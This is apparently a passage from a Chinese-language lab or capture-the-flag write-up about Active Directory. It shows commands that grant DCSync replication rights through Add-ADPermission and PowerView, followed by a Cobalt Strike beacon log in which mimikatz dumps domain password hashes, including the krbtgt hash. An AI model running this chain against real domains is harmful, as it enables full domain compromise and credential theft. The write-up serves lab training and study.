 使用 [Add-ADPermission (ExchangePowerShell)](https://learn.microsoft.com/en-us/powershell/module/exchange/add-adpermission?view=exchange-ps) 添加 DCSync 的 ACE：（此 cmdlet 仅在本地 Exchange 中可用）

```powershell
$id = [Security.Principal.WindowsIdentity]::GetCurrent();
Add-ADPermission "DC=xiaorang,DC=lab" -User $id.Name -ExtendedRights Ds-Replication-Get-Changes,Ds-Replication-Get-Changes-All
```

也可以使用 [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) 添加 DCSync 的 ACE：

```powershell
powershell -exec bypass Import-Module .\PowerView.ps1;
Add-DomainObjectAcl -TargetIdentity "DC=xiaorang,DC=lab" -PrincipalIdentity XIAORANG-EXC01$ -Rights DCSync -Verbose
```

DCSync 一把梭：

```
03/11 01:02:36 beacon> powershell-import /home/kali/Desktop/PowerView.ps1
03/11 01:02:36 [*] Tasked beacon to import: /home/kali/Desktop/PowerView.ps1
03/11 01:02:37 [+] host called home, sent: 143784 bytes
03/11 01:03:39 beacon> powerpick Add-DomainObjectAcl -TargetIdentity "DC=xiaorang,DC=lab" -PrincipalIdentity XIAORANG-EXC01$ -Rights DCSync -Verbose
03/11 01:03:39 [*] Tasked beacon to run: Add-DomainObjectAcl -TargetIdentity "DC=xiaorang,DC=lab" -PrincipalIdentity XIAORANG-EXC01$ -Rights DCSync -Verbose (unmanaged)
03/11 01:03:39 [+] host called home, sent: 134777 bytes
03/11 01:03:43 [+] received output:
VERBOSE: get-domain
VERBOSE: [Get-DomainSearcher] search base: LDAP://XIAORANG-WIN16.xiaorang.lab/DC=xiaorang,DC=lab
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=XIAORANG-EXC01$)(name=XIAORANG-EXC01$)(displayname=XIAORANG-EXC01$))))
VERBOSE: get-domain
VERBOSE: [Get-DomainSearcher] search base: LDAP://XIAORANG-WIN16.xiaorang.lab/DC=xiaorang,DC=lab
VERBOSE: [Get-DomainObject] Extracted domain 'xiaorang.lab' from 'DC=xiaorang,DC=lab'
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC=xiaorang,DC=lab
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=DC=xiaorang,DC=lab)))
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=XIAORANG-EXC01,CN=Computers,DC=xiaorang,DC=lab 'DCSync' on DC=xiaorang,DC=lab
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=XIAORANG-EXC01,CN=Computers,DC=xiaorang,DC=lab rights GUID '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2' on DC=xiaorang,DC=lab
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=XIAORANG-EXC01,CN=Computers,DC=xiaorang,DC=lab rights GUID '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' on DC=xiaorang,DC=lab
VERBOSE: [Add-DomainObjectAcl] Granting principal CN=XIAORANG-EXC01,CN=Computers,DC=xiaorang,DC=lab rights GUID '89e95b76-444d-4c62-991a-0facbeda640c' on DC=xiaorang,DC=lab

03/11 01:04:38 [*] Tasked beacon to run mimikatz's @lsadump::dcsync /domain:xiaorang.lab /all /csv command
03/11 01:04:39 [+] host called home, sent: 297586 bytes
03/11 01:04:41 [+] received output:
[DC] 'xiaorang.lab' will be the domain
[DC] 'XIAORANG-WIN16.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502 krbtgt b8fa79a52e918cb0cbcd1c0ede492647 514
1137 HealthMailboxeda7a84 1e89e23e265bb7b54dc87938b1b1a131 66048
1138 HealthMailbox33b01cf 0eff3de35019c2ee10b68f48941ac50d 66048
1139 HealthMailbox9570292 e434c7db0f0a09de83f3d7df25ec2d2f 66048
1140 HealthMailbox3479a75 c43965ecaa92be22c918e2604e7fbea0 66048
1141 HealthMailbox2d45c5b 4822b67394d6d93980f8e681c452be21 66048
1142 HealthMailboxec2d542 147734fa059848c67553dc663782e899 66048
1143 HealthMailboxf5f7dbd e7e4f69b43b92fb37d8e9b20848e6b66 66048
1144 HealthMailbox67dc103 4fe68d094e3e797cfc4097e5cca772eb 66048
```